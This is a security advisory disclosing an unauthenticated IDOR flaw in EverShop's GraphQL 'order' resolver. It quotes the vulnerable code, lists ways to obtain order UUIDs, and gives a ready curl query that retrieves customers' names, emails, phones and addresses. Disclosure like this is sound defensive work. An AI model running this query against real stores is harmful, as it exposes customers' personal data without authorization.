 # Evershop Unauthorized Order Information Access (IDOR)

# Security Advisory: Unauthorized Order Information Access (IDOR)

- **CVE ID:** CVE-2025-XXXXx
- **Product:** EverShop E-Commerce Platform
- **Vulnerability Type:** Insecure Direct Object Reference (IDOR)
- **Severity:** HIGH
- **CVSS v3.1 Score:** 7.5
- **CWE:** CWE-639 (Authorization Bypass Through User-Controlled Key)
- **Disclosure Date:** 2025-10-23 UTC
  
---

## Executive Summary

A critical authorization vulnerability has been identified in EverShop's GraphQL API that allows any unauthenticated user to access complete order information, including customer personally identifiable information (PII), shipping addresses, billing details, and purchase history. This is a textbook Insecure Direct Object Reference (IDOR) vulnerability where the application fails to verify whether the requesting user has permission to access the requested order data.

---

## Vulnerability Details

### Description

The `order` GraphQL query resolver accepts an order UUID as input and returns complete order details without performing any authentication or authorization checks. An attacker who obtains or guesses a valid order UUID can retrieve sensitive customer information including:

- Customer full name, email address, and phone number
- Complete shipping address (street, city, province, postal code, country)
- Complete billing address
- Order total amount and payment status
- Detailed list of purchased products with prices
- Shipping and tracking information

### Affected Components

**File:** `/src/modules/oms/graphql/types/Order/Order.resolvers.js` (lines 7-14)

**Vulnerable Code:**

```javascript
Query: {
  order: async (_, { uuid }, { pool }) => {
    const query = getOrdersBaseQuery();
    query.where('uuid', '=', uuid);  // ❌ Only checks if UUID exists
    const order = await query.load(pool);  // ❌ No authorization check
    return order ? camelCase(order) : null;
  }
}
```

**Comparison with Secure Implementation:**

The codebase does contain a secure implementation for customer-owned orders:

```javascript
Customer: {
  orders: async ({ customerId }, _, { pool }) => {
    const orders = await select()
      .from('order')
      .where('order.customer_id', '=', customerId);  // ✅ Validates ownership
    return orders.map((row) => camelCase(row));
  }
}
```

This demonstrates that the developers understand proper authorization, but failed to apply it consistently across all query endpoints.

---

## Attack Vector

### Prerequisites

- **Authentication:** None required
- **Access Level:** Public (unauthenticated users)
- **Complexity:** Low
- **User Interaction:** None

### Attack Steps

**Step 1: Obtain Order UUID**

Order UUIDs can be obtained through various methods:
- Email order confirmation links (e.g., `https://[REDACTED]/order/view/{ORDER_UUID}`)
- Predictable order numbering combined with CVE-2025-XXXX-11
- Information disclosure through error messages
- Social engineering
- Brute force (UUIDs are predictable if using time-based generation)

**Step 2: Query Order Information**

Execute an unauthenticated GraphQL query:

```bash
curl -X POST 'https://[REDACTED]/api/graphql' \
  -H 'Content-Type: application/json' \
  -d '{
    "query": "query GetOrder($uuid: String!) { order(uuid: $uuid) { uuid orderNumber customerEmail customerFullName customerTelephone grandTotal { value } shippingAddress { fullName telephone address1 city province postcode country { name } } billingAddress { fullName telephone address1 } items { productName qty productPrice { value } finalPrice { value } } } }",
    "variables": {
      "uuid": "TARGET_ORDER_UUID"
    }
  }'
```

**Step 3: Receive Sensitive Data**

<img width="941" height="518" alt="image" src="https://github.com/user-attachments/assets/0696e74f-c43d-4cfb-aa30-1e44a42269cc" />
